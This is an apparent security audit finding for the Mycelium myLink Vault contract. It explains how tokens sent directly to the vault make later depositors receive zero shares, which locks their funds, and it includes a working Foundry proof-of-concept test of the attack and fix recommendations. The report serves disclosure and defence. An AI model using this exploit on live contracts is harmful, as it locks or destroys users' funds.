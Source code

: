 CRYP70

high

# Forcibly sending tokens to the vault can block future investors from receiving myLink causing a Denial of Service condition and loss of funds.

## Summary
When depositing funds for the very first time, the number of shares is determined by `_tokens * STARTING_SHARES_PER_LINK` which makes sense because we cannot multiply by zero myLink tokens in the supply. A malicious user can forcibly send LINK tokens to the vault to cause a denial of service condition and a loss of funds.

## Vulnerability Detail
When `convertToShares()` is determining the number of shares to give a user after depositing, the if statement on line `616` is never executed when LINK tokens aren't sent by the `deposit()` method because the `balanceOf(address(this))` is not an accurate value of the deposits in `totalSupply()`.  The `tokenSupply` in this situation is not zero and due to the forcibly sent tokens in the contract accounting, the program doesn't execute `_tokens * STARTING_SHARES_PER_LINK`. Execution will skip to the last line ( return `_tokens * 0 / 1`) - which is always going to be zero. 

## Impact
I have awarded this a high in severity because of how cheap and easy it is to launch the attack. Users may also deposit large amounts of funds only to realise that they may have not received any `myLink` tokens back. As a result, their tokens are locked in the contract forever.

## Code Snippet
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L616-L618
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L553

## Proof of Concept
```solidity
pragma solidity ^0.8.9;

import "../../lib/forge-std/src/Test.sol";
import "../../lib/forge-std/src/console.sol";
import "../../src/Vault.sol";
import "../../src/AttackerContract.sol";
import "../../src/plugins/AaveV2Plugin.sol";
import "../utils/Token.sol";
import "openzeppelin/proxy/ERC1967/ERC1967Proxy.sol";


contract MyTests is Test {
    Token public link;
    Vault public vault;
    AaveV2Plugin public aavePlugin;
    address implementation;
    address proxy;

    address public alice = vm.addr(1);
    address public bob = vm.addr(2);
    address public carol = vm.addr(3);
    address public dan = vm.addr(4);
    address public eve = vm.addr(5);
    address public frank = vm.addr(6);
    address public admin = vm.addr(7);

    function setUp() public {

        link = new Token("Chainlink", "LINK");
        vm.startPrank(address(admin));
        implementation = address(new Vault());
        proxy = address(new ERC1967Proxy(implementation, ""));
        vault = Vault(proxy);
        vault.initialize(address(link), address(admin), 10e34, 1000);

        vm.stopPrank();
    }


    function testDenialOfServiceCondition() public {

        link.mint(address(alice), 1000 ether);
        link.mint(address(eve), 101 ether);
        link.mint(address(bob), 250 ether);

        vm.startPrank(address(eve));
        // First depositor forcibly sends 1 token. 
        link.transfer(address(vault), 1 ether); 
        vm.stopPrank();

        vm.startPrank(address(bob));
        link.approve(address(vault), 55 ether);
        vault.deposit(55 ether);
        vm.stopPrank();

        vm.startPrank(address(alice));
        link.approve(address(vault), 500 ether);
        vault.deposit(500 ether);
        vm.stopPrank();


        vm.startPrank(address(alice));
        vm.expectRevert("Amount exceeds balance");
        vault.withdraw(500 ether); // Alice cannot withdraw funds because her myLink balance is still zero
        vm.stopPrank();

        uint256 alicebalance = vault.balanceOf(address(alice));
        assertEq(alicebalance, 0);

    }
}
```

## Tool used
Manual Review

## Recommendation
_Short Term_
I recommend removing the use of `.balanceOf(address(this))` when determining the total supply. I recommend replacing this with a storage variable each time `deposit()` is called which accrues tokens deposited and is adjusted when tokens are withdrawn. This value can be used when determining the total supply.  
_Long Term_
It could be worth considering an [ERC777](https://docs.openzeppelin.com/contracts/2.x/erc777) implementation. This will allow the vault to use receive hooks to react when tokens are sent. In this instance the vault could revert the transaction if `deposit()` wasn't used. 
